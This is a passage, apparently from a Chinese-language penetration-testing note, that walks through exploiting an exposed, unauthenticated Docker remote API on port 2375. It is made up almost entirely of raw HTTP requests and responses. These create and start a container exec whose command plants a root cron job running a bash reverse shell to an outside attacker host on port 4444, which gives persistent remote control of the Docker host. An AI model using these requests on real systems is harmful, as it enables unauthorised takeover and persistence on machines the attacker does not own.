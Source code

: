 ```bash

HTTP/1.1 204 No Content
Api-Version: 1.38
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:04:19 GMT
Connection: close
```

启动 写 shell 到公钥

```bash
POST /containers/容器id/exec HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 556

{
"AttachStdin":true,
"AttachStdout":true,"AttachStderr":true,
"DetachKeys":"ctrl-p,ctrl-q",
"Tty":false,
"Cmd":["sh","-c","echo '03 11 * * * bash -i >& /dev/tcp/40.*.*.*/4444 0>&1' >> /mnt/var/spool/cron/root"]
}

HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:08:20 GMT
Content-Length: 74
Connection: close

{"Id":"实例 id"}
```

启动就行

```bash
POST /exec/实例id/start HTTP/1.1
Host: *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 27

{"Detach":true,"Tty":false}
```